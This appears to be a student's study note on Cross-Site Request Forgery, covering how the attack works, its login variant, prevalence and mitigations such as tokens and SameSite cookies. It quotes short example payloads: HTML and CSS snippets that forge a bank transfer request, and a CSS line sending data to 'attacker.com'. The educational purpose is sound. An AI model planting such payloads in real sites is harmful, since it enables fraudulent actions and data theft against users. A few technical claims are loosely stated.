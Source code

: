 ```yaml
---
ID: 2025-02-03-15:11
tags:
  - "#definition"
  - cyberSecurity
  - clientSideAttacks
  - CSFR
---
```

Also known as XSRF, Confused Deputy, one-click-attack, Session Riding [[(Maes, Heyman, et al., 2009)]]

## Definition

Cross-Site Request Forgery (CSRF) is an attack that forces an authenticated user to perform an unwanted action on a website they are logged in to, without their knowledge or consent
- This is possible exploiting authentication cookies or [[sessions token]] of the victim [[(Tkachenko et al., 2024)]]
- ==Many websites trust requests from an authenticated browser, without checking whether the user actually intended them==

Even if is called Cross-Site Request Forgery, technically the CSRF attack can be executed withing the same domain, due to a [[XSS (cross site scripting)]] vulnerability or when multiple users can host a web site within the same domain (e.g., universities) [[(Maes, Heyman, et al., 2009)]]

### CSRF Mechanism

- The user is logged into a legitimate website (e.g., bank.com) and remains authenticated while browsing the internet[^1]. This website must use implicit authentication
- An attacker tricks the user into visiting *another* malicious website[^2]
- The malicious website executes code that sends an HTTP request to the previous legitimate website (bank.com), exploiting the user's active session. The HTTP request ==will automatically attach the session cookie, therefore the attacker does not have even to know it== (unless [[SameSite cookie]] are activate, which is only true in Chrome by now)
- Since the user's browser is still authenticated, the legitimate website accepts the request as valid, performing the fraudulent action on behalf of the user.

### How can the attacker know what HTTP request to send?

The hacker has to know pretty well the API structure of the target website in order to make the right HTTP request that will, for example, execute an unwanted transaction. This is possible because:
- he is using the website `bank.com` himself, so he can see what API are used
- he has reverse engineered the website's API structure
- he has access to technical documentation of the target website 
- he exploits common pattern such as `POST /update_profile`
- he has access to company documentation, emails, or public discussion forums [[(Felsch, Heiderich, et al., 2015)]]

The attack does not even require a JavaScript snippet to be executed. If the server does not check the type of request, is it technically possible to execute a CSRF using GET request implicitly defined in:

- HTML, via  `<img>`, or `<a>` tags [[(Felsch, Heiderich, et al., 2015)]]

```html
<img src="https://banca.com/transfer?amount=5000&to_account=123456">
```

- CSS, using HTML attributes as source of dynamic values [[(Maes, Heyman, et al., 2009)]]

```css
/* it will execute a GET request with parameters */
div[secret-data] {
    background-image: url("https://attacker.com/log?data="attr(secret-data));
}
```

- using the CSS `@import` statement

```css
@import url("https://banca.com/transfer?amount=5000&to_account=123456");
```

### CSRF variants

**Login CSRF** [[(Trampert, Stock, et al., 2023)]]
- the attacker forces the victim to log into the attacker’s account on some service. While this may sound counterintuitive initially, it allows the attacker to track their victim’s activities, e.g., following their search history, since that history is now tied to the attacker’s account.

### Risks and consequences

Common CSFR includes:
- changing user's credentials, making the account unusable for the user and stealing his identity
- sending unwanted transactions

### Prevalence

Among 5,000 randomly selected scan targets of HTTP requests by Acunetix in 2020, 36% were found vulnerable to CSRF attacks [[(Ramadan, Osama, et al., 2024)]]

### Mitigation techniques

- [[SOP (Same-Origin Policy)]] is the first layer of protection, preventing malicious script to directly read cookies or access the DOM of other websites
- Using [[CSRF (cross-site request forgery) token]], which are in essence random values embedded into form fields. If the server does not receive the token that expects, the HTTP request is rejected
- verifying the source of the request (original header): `referrer` header has been proposed as a solution, but it carries privacy concerns as is often suppressed by browsers. The `origin` header is more considerate of privacy but not well supported [[(Pelizzi, Sekar, et al., 2011)]]
- limiting HTTP request methods
- using [[SameSite cookie]] [[(Saleh, Malkawi, et al., 2024)]]
- closing all the tabs except for the one you are using may be an effective mitigation strategy, but ==if you landed on a malicious website *before* reaching the target, malicious HTTP requests may have been hidden and then executed in the background (this can be done with a [[service worker]])==

Other client-side protections from [[(Maes, Heyman, et al., 2009)]]:
- browser extensions: RequestPolicy, BEAP, CSRF Protector, SOMA
- client-side proxy: RequestRodeo

Usually these countermeasures monitor outgoing requests and incoming responses, and filter out implicit authentication or block cross-domain requests. Cons:
- degrading user experience
- degrading application performance
- fail to protect against GET-based CSRF

**Why not blocking all the cross-domain POST request?**
- sometimes front-end and back-end live in different domains (e.g., `example.com` is a SPA application written in Vue.js ask requests to a PHP back-end which is a completely different application hosted somewhere else)
- some web applications leverage on public APIs
- third-party services (Stripe, for payments, [[OAuth]] or [[OpenID]] for authentication) are used

---

#### See also

There are similarities between CSRF and [[XSS (cross site scripting)]]. While the XSS is a general abuse of a website leading to malicious script execution, CSRF is focused on performing actions on behalf of an unsuspecting user (see [[XSS and CSFR comparison]]).

#### References
- [[(Tkachenko et al., 2024)]]
- Included in literature review, by [[(Onukrane, Skrodelis, et al., 2023)]]
- Unsystematic and short literature review by [[(Farah, Shojol, et al., 2016)]]
- Server-side mitigation tool jCSRF, by [[(Pelizzi, Sekar, et al., 2011)]]
- Attack simulation, by [[(Saleh, Malkawi, et al., 2024)]]
- client-side defense policies, [[(Maes, Heyman, et al., 2009)]]
- server-side proxy, [[(Liu, Shen, et al., 2020)]]
- ML comparison in CSRF,  [[(Ramadan, Osama, et al., 2024)]]

[^1]: For more about authentication mechanisms and session management, see [[cookie]], [[sessions token]], [[JWT (JSON Web Token)]]

[^2]: This can be done in different forms. For example, via a [[phishing]] email, using malicious embedded image or malicious forms in a website vulnerable to [[XSS (cross site scripting)]], exploiting [[clickjacking]] or [[tabnabbing]] attacks
